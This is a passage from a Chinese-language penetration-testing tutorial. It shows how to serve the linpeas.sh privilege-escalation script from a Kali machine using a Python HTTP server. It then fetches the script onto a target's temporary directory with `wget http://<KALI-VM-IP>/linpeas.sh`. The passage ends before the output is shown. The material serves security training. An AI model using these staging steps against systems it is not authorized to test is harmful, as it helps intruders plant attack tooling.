 ## 文件传输

为了将`linpeas.sh`文件传输到我们的目标，我们需要在 Kali 虚拟机上搭建一个 Web 服务器。这个服务器将用来托管文件，以便我们可以在目标系统上下载它。可以通过以下步骤来完成：

1.  为了在 Kali 虚拟机上设置 Web 服务器，我们可以使用 `SimpleHTTPServer` Python 模块来提供二进制文件。可以通过在存储 `linpeas.sh` 二进制文件的目录中运行以下命令来完成：

    `sudo python -m SimpleHTTPServer 80`

    注意

    如果端口 `80` 已被占用，您还可以使用系统上的任何其他开放端口。

    另外，您还可以通过运行以下命令，利用 Python 3 的 `http.server` 模块：

    `sudo python3 -m http.server 80`

    正如以下截图所示，`SimpleHTTPServer` 将在 Kali 虚拟机 IP 地址的 `80` 端口上提供目录中的文件：

    ![图 10.10 – SimpleHTTPServer linpeas.sh    ](img/B17389_10_010.jpg)

    图 10.10 – SimpleHTTPServer linpeas.sh

1.  为了将 `linpeas.sh` 文件下载到目标系统，我们可以利用 `wget` 工具。然而，在下载二进制文件之前，我们需要导航到一个我们有读写权限的目录。在这种情况下，我们将导航到临时目录，如以下截图所示：![图 10.11 – Linux 临时目录    ](img/B17389_10_011.jpg)

    图 10.11 – Linux 临时目录

1.  现在，我们可以使用 `wget` 工具将文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来完成：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    上述命令的输出可以在以下截图中看到：
